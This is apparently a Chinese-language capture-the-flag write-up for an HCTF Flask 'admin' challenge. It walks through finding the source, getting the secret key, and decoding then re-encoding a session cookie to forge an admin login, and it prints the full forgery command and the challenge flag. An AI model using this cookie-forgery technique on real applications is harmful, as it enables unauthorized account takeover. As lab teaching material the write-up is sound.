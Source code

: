 ```yaml
---
Author: SuperJason
Date: 2021-01-18
---
```


## flag
`flag{518a6b39-0416-4b19-85d5-477975f31b6e}`

## 思路
1. 访问环境，源码提示需要管理员权限。注册admin提示账户已注册，随意注册一个test账户，在修改密码界面的源码提示了github仓库https://github.com/woadsl1234/hctf_flask/   
   ![](images/hctf-admin-1.png)
2. 源码发现利用了flask框架，加密key为ckj123，利用cookie伪造admin会话。代码和解析后的内容如下。  
```python flask_session_cookie_hack.py decode -c {session}```
```b'{"_fresh":true,"_id":{" b":"ZDA5ZDkwMjhhNWFiNTgyMGY3YmM0MzBlMDA3YWU4NTU5Nzg5YjM1OGQ0NzRhOWRmNzJlNTJlMjViMzdiZDFhMTU3Y2Q3M2NkZGQ2YWZhZTBlYmJhNzBkMDJlMjdmOTFmZjEzNTQ3YzAxZWRjNjE3ZjVlYzFmYmNmNzU1OWRmN2Y="},"csrf_token":{" b":"MDk4N2FlYWNjYTViYTkzYmZhOWNkMTMzNjVjNGZmNDZjNjA3MWNmZg=="},"image":{" b":"MlVBWA=="},"name":"test","user_id":"10"}'```
   ![](images/hctf-admin-2.png)
3. 改为admin后加密，这里通过decode得到的json数据需要适当修改一下，实际载荷如下。  
``` python .\N1BOOK\scripts\flask_session_cookie_hack.py encode -t "{'_fresh': True, '_id': b'ca73d01f58fe172c279fdb1026ba1202390ee0e60b049380c8785511afd9560104b61fa487c4bcb293fc463ef1548d3cad028ce1b5ff4922ab5246e4105a0a33', 'csrf_token': b'bcb966803bad1e8b020d5b7cf5e843fb157ef072', 'image': b'Av32', 'name': 'admin', 'user_id': '10'}" -s ckj123```
   ![](images/hctf-admin-3.png)
4. 修改cookie后，获得flag
   ![](images/hctf-admin-4.png)

## 总结
- 源码分析
- flask会话伪造